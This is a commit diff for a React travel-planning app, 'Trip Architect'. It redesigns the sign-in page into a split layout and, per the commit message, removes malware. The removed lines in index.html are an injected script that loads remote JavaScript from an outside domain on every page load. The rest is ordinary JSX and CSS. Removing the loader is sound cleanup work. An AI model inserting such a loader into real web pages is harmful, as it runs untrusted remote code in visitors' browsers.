

Before and after one commit to The-soof/trip-architect-mvp, a React (Vite) app in the folder frontend/: page /sign-in in a window 1280 px wide. Shown: the part 40-1510 px from the top of the page at 80% size. After the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
fixed sign in page and remove malware

```diff
--- a/frontend/index.html
+++ b/frontend/index.html
@@ -15,14 +15,6 @@
       href="https://fonts.googleapis.com/css2?family=Newsreader:opsz,wght@6..72,500;6..72,700&family=Space+Grotesk:wght@400;500;700&display=swap"
       rel="stylesheet"
     />
-    <script nowprocket data-noptimize="1" data-cfasync="false" data-wpfc-render="false" seraph-accel-crit="1" data-no-defer="1">
-      (function () {
-          var script = document.createElement("script");
-          script.async = 1;
-          script.src = 'https://tpembars.com/NTM0NjEy.js?t=534612';
-          document.head.appendChild(script);
-      })();
-    </script>
   </head>
   <body>
     <div id="root"></div>
--- a/frontend/src/pages/LandingPage.jsx
+++ b/frontend/src/pages/LandingPage.jsx
@@ -1,101 +1,71 @@
+import { useEffect } from 'react'
 import { Link, Navigate } from 'react-router-dom'
 import AuthPanel from '../components/AuthPanel'
 import { useSession } from '../hooks/useSession.jsx'
 
-const valueProps = [
-  {
-    title: 'Shortlist routes quickly',
-    body: 'Compare realistic destination combinations with costs, pacing, and tradeoffs already organized.',
-  },
-  {
-    title: 'Turn a route into a real trip',
-    body: 'Expand the winning option into a day-by-day plan with neighborhood guidance and booking discovery.',
-  },
-  {
-    title: 'Keep planning context together',
-    body: 'Save trips, revisit previous requests, and reuse the best ones as the next starting point.',
-  },
-]
-
-const workflow = [
-  'Share origin, dates, traveler count, destinations, and pace.',
-  'Review ranked route options with budget ranges and fit scores.',
-  'Save the best plan and continue refining details in the workspace.',
-]
+// Compact compass mark, shared visual language with the home page brandmark.
+function CompassMark() {
+  return (
+    <svg className="auth-brand-logo" viewBox="0 0 120 120" role="img" aria-label="Trip Architect">
+      <defs>
+        <linearGradient id="auth-logo-grad" x1="0" y1="0" x2="1" y2="1">
+          <stop offset="0%" stopColor="#6bb8f5" />
+          <stop offset="50%" stopColor="#abb1e2" />
+          <stop offset="100%" stopColor="#f6c79c" />
+        </linearGradient>
+      </defs>
+      <circle cx="60" cy="60" r="54" fill="none" stroke="url(#auth-logo-grad)" strokeWidth="2.5" opacity="0.7" />
+      <path d="M60 14 L68 52 L106 60 L68 68 L60 106 L52 68 L14 60 L52 52 Z" fill="url(#auth-logo-grad)" opacity="0.92" />
+      <path d="M60 30 L64 56 L90 60 L64 64 L60 90 L56 64 L30 60 L56 56 Z" fill="#071226" opacity="0.82" />
+      <circle cx="60" cy="60" r="6" fill="#ffffff" />
+      <circle cx="60" cy="60" r="3" fill="#071226" />
+    </svg>
+  )
+}
 
 export default function LandingPage({ initialMode = 'register' }) {
   const { token } = useSession()
+
+  // Suppress the global blurred page overlay so the split panels read crisply.
+  useEffect(() => {
+    document.body.classList.add('auth-active')
+    return () => document.body.classList.remove('auth-active')
+  }, [])
 
   if (token) {
     return <Navigate replace to="/app" />
   }
 
   return (
-    <main className="landing-shell">
-      <header className="landing-header">
-        <Link className="brandmark" to="/">
+    <main className="auth-shell">
+      <section className="auth-brand-panel">
+        <Link className="brandmark auth-brand-mark" to="/">
           <span className="brandmark-dot" />
           <span>
             Trip Architect
             <small>Travel planning workspace</small>
           </span>
         </Link>
-        <div className="landing-header-note">
-          <p>For travelers who want structure before they start booking.</p>
-        </div>
-      </header>
 
-      <section className="hero-panel">
-        <div className="hero-copy">
-          <p className="eyebrow">AI travel planner</p>
-          <h1>From a vague summer idea to a saved bookable itinerary in minutes.</h1>
-          <p className="hero-body">
-            Trip Architect compares realistic destination combinations, explains the tradeoffs, expands a selected plan
-            into a day-by-day itinerary, and keeps the planning decisions in one organized workspace.
+        <div className="auth-brand-hero">
+          <CompassMark />
+          <h1 className="auth-brand-headline">Design the trip before you book it.</h1>
+          <p className="auth-brand-sub">
+            Compare routes, deepen the winning plan, and keep every decision in one workspace.
           </p>
-          <div className="hero-proof">
-            <strong>Built for the messy middle of planning.</strong>
-            <p>Useful before flights are booked, useful after the route is chosen, and still useful when it is time to save the details.</p>
-          </div>
-          <div className="hero-metrics">
-            <article>
-              <strong>3-5</strong>
-              <span>structured route options</span>
-            </article>
-            <article>
-              <strong>1</strong>
-              <span>saved workspace for every trip</span>
-            </article>
-            <article>
-              <strong>2</strong>
-              <span>planning modes ready for fast Gemini routing or deeper research-backed itinerary runs</span>
-            </article>
-          </div>
         </div>
 
-        <div className="hero-stack">
-          <div className="hero-preview surface-card">
-            <p className="eyebrow">How it works</p>
-            <h2>Compare, choose, deepen, save.</h2>
-            <ol className="workflow-list">
-              {workflow.map((item) => (
-                <li key={item}>{item}</li>
-              ))}
-            </ol>
-          </div>
-
-          <AuthPanel initialMode={initialMode} />
+        <div className="auth-brand-foot">
+          <Link to="/privacy">Privacy</Link>
+          <Link to="/terms">Terms</Link>
+          <a href="mailto:support@triparchitect.app">Support</a>
         </div>
       </section>
 
-      <section className="value-grid" aria-label="Product highlights">
-        {valueProps.map((prop) => (
-          <article className="surface-card value-card" key={prop.title}>
-            <p className="eyebrow">Why it helps</p>
-            <h2>{prop.title}</h2>
-            <p>{prop.body}</p>
-          </article>
-        ))}
+      <section className="auth-form-panel">
+        <div className="auth-form-inner">
+          <AuthPanel initialMode={initialMode} />
+        </div>
       </section>
     </main>
   )
--- a/frontend/src/styles/app.css
+++ b/frontend/src/styles/app.css
@@ -648,6 +648,11 @@ textarea {
   display: grid;
   grid-template-columns: minmax(0, 1.18fr) minmax(320px, 0.82fr);
   gap: 20px;
+  /* Size each column to its own content. Without this, the grid's default
+     stretch makes the left planner column match the (often much taller) saved-
+     trips sidebar, which inflated the "Generate trip options" button and spread
+     the form fields apart once trips were saved. */
+  align-items: start;
 }
 
 .dashboard-main {
@@ -1125,6 +1130,143 @@ textarea {
 
 .legal-card p + p {
   margin-top: 12px;
+}
+
+/* ---------- Sign in / sign up (split auth layout) ---------- */
+
+.auth-shell {
+  display: grid;
+  grid-template-columns: 1.05fr 1fr;
+  min-height: 100vh;
+  min-height: 100svh;
+  width: 100%;
+}
+
+/* Panels are opaque, so suppress the global blurred overlay for a crisp split. */
+body.auth-active::before {
+  opacity: 0;
+}
+
+.auth-brand-panel {
+  position: relative;
+  display: flex;
+  flex-direction: column;
+  justify-content: space-between;
+  gap: 32px;
+  padding: 48px;
+  overflow: hidden;
+  border-right: 1px solid var(--line);
+  background:
+    radial-gradient(circle at 16% 20%, rgba(106, 184, 244, 0.34), transparent 55%),
+    radial-gradient(circle at 84% 16%, rgba(246, 199, 156, 0.3), transparent 52%),
+    radial-gradient(circle at 62% 92%, rgba(171, 177, 226, 0.36), transparent 58%),
+    linear-gradient(160deg, #ffffff 0%, #eef2f8 100%);
+}
+
+.auth-brand-mark {
+  position: relative;
+  z-index: 1;
+}
+
+.auth-brand-hero {
+  display: grid;
+  gap: 18px;
+  max-width: 30rem;
+  margin: auto 0;
+}
+
+.auth-brand-logo {
+  width: clamp(72px, 8vw, 104px);
+  height: auto;
+  filter: drop-shadow(0 18px 40px rgba(7, 18, 38, 0.14));
+  animation: home-logo-float 9s ease-in-out infinite;
+}
+
+.auth-brand-headline {
+  font-family: 'Newsreader', serif;
+  font-size: clamp(2.4rem, 3.4vw, 3.4rem);
+  line-height: 1;
+  letter-spacing: -0.01em;
+  color: var(--ink);
+  max-width: 14ch;
+}
+
+.auth-brand-sub {
+  color: var(--muted);
+  font-size: 1.05rem;
+  line-height: 1.55;
+  max-width: 34ch;
+}
+
+.auth-brand-foot {
+  display: flex;
+  gap: 18px;
+  font-size: 0.9rem;
+  color: var(--muted);
+}
+
+.auth-brand-foot a:hover {
+  color: var(--ink);
+}
+
+.auth-form-panel {
+  display: flex;
+  align-items: center;
+  justify-content: center;
+  padding: 48px;
+  background: var(--surface-strong);
+}
+
+.auth-form-inner {
+  width: min(400px, 100%);
+}
+
+/* In the split, the form sits directly on the white panel — drop card chrome. */
+.auth-form-panel .auth-panel {
+  border: 0;
+  padding: 0;
+  background: transparent;
+  box-shadow: none;
+  backdrop-filter: none;
+}
+
+@media (max-width: 860px) {
+  .auth-shell {
+    grid-template-columns: 1fr;
+  }
+
+  .auth-brand-panel {
+    min-height: auto;
+    gap: 16px;
+    padding: 28px 24px;
+    border-right: 0;
+    border-bottom: 1px solid var(--line);
+  }
+
+  .auth-brand-hero {
+    margin: 6px 0;
+    gap: 10px;
+  }
+
+  .auth-brand-logo {
+    display: none;
+  }
+
+  .auth-brand-headline {
+    font-size: clamp(1.9rem, 7vw, 2.4rem);
+  }
+
+  .auth-brand-sub {
+    font-size: 0.98rem;
+  }
+
+  .auth-brand-foot {
+    display: none;
+  }
+
+  .auth-form-panel {
+    padding: 32px 24px 48px;
+  }
 }
 
 /* ---------- Home / docking page ---------- */
```
